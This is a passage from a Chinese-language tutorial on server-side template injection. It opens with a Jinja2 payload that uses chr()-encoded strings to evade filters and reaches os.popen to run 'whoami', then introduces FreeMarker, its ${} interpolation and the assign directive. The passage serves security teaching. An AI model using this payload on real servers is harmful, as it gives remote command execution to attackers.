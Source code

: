 ```python
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(250).__init__.__globals__.__builtins__.chr %}{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__==chr(95)%2bchr(119)%2bchr(114)%2bchr(97)%2bchr(112)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(111)%2bchr(115)%2bchr(101) %}{{ c.__init__.__globals__.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read() }}{% endif %}{% endfor %}
```

## 3.3 FreeMark模板注入

### 3.3.1 freemarker 简述#
FreeMarker 是一款 模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。

模板编写为FreeMarker Template Language (FTL)。它是简单的，专用的语言， 不是 像PHP那样成熟的编程语言。 那就意味着要准备数据在真实编程语言中来显示，比如数据库查询和业务运算， 之后模板显示已经准备好的数据。在模板中，你可以专注于如何展现数据， 而在模板之外可以专注于要展示什么数据。

这种方式通常被称为 MVC (模型 视图 控制器) 模式，对于动态网页来说，是一种特别流行的模式。 它帮助从开发人员(Java 程序员)中分离出网页设计师(HTML设计师)。设计师无需面对模板中的复杂逻辑， 在没有程序员来修改或重新编译代码时，也可以修改页面的样式。

其实FreeMarker的原理就是：模板+数据模型=输出，它基于模板来生成文本输出。其原理如下图所示：

![image.png](http://moonsec.top/articlepic/447963e3d27274805edee64f5289ba8a.png)


### 3.3.2 FreeMarker 插值${} 的新认识
1、插值的定义
插值，其表示为：${...}的格式。
2、FreeMarker中的插值
在FreeMarker模板语言中，插值${...}将使用数据模型中的部分替代输出。

### 3.3.3 FreeMarker assign 指令介绍
FreeMarker assign 简单使用

assign指令用于为该模板页面创建或替换一个顶层变量，或者创建或替换多个变量等。它的最简单的语法如下:
<#assign name=value [in namespacehash]>,
这个用法用于指定一个名为name的变量，该变量的值为value。此外，FreeMarker允许在使用assign指令里增加in子句。in子句用于将创建的name变量放入namespacehash命名空间中。
FreeMarker assign 指令用于在页面上定义一个变量，而变量又分为下面两种类型：

（1）定义简单类型

```HTML
<#assign name="Tom">
my name is ${name}
```

（2）定义对象类型

```HTML
<#assign info={"mobile":"xxxxxx","address":"china"} >
my mobile is ${info.mobile}, my address is ${info.address}
```

二、FreeMarker assign 语法介绍（4种形式）
